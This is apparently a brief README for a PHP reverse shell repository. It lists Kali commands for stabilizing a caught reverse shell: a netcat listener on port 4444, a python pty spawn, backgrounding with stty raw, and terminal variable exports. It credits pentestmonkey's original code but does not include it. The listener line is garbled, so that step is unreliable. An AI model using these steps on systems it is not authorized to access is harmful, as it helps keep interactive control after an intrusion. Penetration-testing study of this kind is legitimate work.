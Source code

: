 # php-reverse-shell


##################################Stabilize reverse Shell##################################
#Do this on Kali, zsh shell gives error with turning enter in to ^M
exec bash --login

# Check if bash is active.
ps -p $$ 

#get vars 
echo $TERM
stty -a 

#Setup shell nc 
nvlp -nc 4444
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>


#not always needed.
export TERM=xterm
  
  
  
  
  
  
  
  
  
  original code : https://github.com/pentestmonkey/php-reverse-shell
